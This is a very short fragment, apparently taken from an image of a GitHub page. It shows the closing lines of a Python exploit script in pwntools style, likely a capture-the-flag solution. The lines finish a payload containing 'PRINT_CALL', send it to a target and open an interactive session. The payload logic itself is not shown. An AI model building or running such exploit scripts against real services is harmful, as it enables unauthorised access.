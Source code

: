 ```python
        0,
        PRINT_CALL
        ]
    })
print(len(payload))
io.sendline(payload)

io.interactive()

```

